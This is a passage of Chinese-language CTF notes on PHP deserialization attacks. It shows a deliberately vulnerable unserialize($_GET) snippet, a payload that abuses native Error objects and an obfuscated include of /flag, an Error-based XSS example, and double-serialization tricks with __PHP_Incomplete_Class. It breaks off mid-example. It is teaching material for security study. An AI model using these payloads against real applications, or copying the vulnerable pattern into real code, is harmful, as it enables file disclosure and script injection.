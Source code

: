 ```php

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

平常都是用数组，但是这是在类里面，数组就不行了，得用原生类`Error`（php7）或`Exception`（php5 or 7），它有`__toString`方法，被触发后会以字符串形式输出当前保存情况，包括错误信息和当前报错的行号，而跟传入的参数没有关系；所以说可以构造两个类的实例，它们行号相同（被`__toString`调用后输出信息一样），但是本身不相同（传入参数不等）

```php
$payload = "?><?=include~".urldecode(urlencode(~'/flag'))."?>";
$a = new Error($payload,1); $b = new Error($payload,2);
$s = new SYCLOVER();
$s->syc = $a;
$s->lover = $b;
echo urlencode(serialize($s));
```

注意`$a`和`$b`写到一行

### Error/Exception - XSS

参考：[关于如何利用php的原生类进行XSS](https://www.cnblogs.com/NPFS/p/13385038.html)

```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);
echo unserialize($b);
```

## 二次序列化/fast destruct

https://zhuanlan.zhihu.com/p/405838002

```php
<?php
$raw = 'O:1:"A":1:{s:1:"a";s:1:"b";}';
echo serialize(unserialize($raw));
//O:1:"A":1:{s:1:"a";s:1:"b";}
```

上面是一个相当正常的二次序列化的栗子（将序列化结果反序列化后再序列化），值得注意的是这里并不是真的有一个类A，在操作时 php内部会把不存在的类转换成`__PHP_Incomplete_Class`这种特殊的类，同时将原始的类名`A`存放在`__PHP_Incomplete_Class_Name`这个属性中，其余属性存放方式不变；而我们在序列化这个对象的时候，serialize遇到`__PHP_Incomplete_Class`这个特殊类会倒推回来，序列化成`__PHP_Incomplete_Class_Name`值为类名的类，我们看到的序列化结果不是`O:22:"__PHP_Incomplete_Class_Name":2:{xxx}`而是`O:1:"A":1:{s:1:"a";s:1:"b";}`，所以如果我们构造

```php
<?php
$raw = 'a:2:{i:0;O:8:"stdClass":1:{s:3:"abc";N;}i:1;O:22:"__PHP_Incomplete_Class":1:{s:3:"abc";N;}}';
var_dump(unserialize($raw));
var_dump(unserialize(serialize(unserialize($raw))));
```
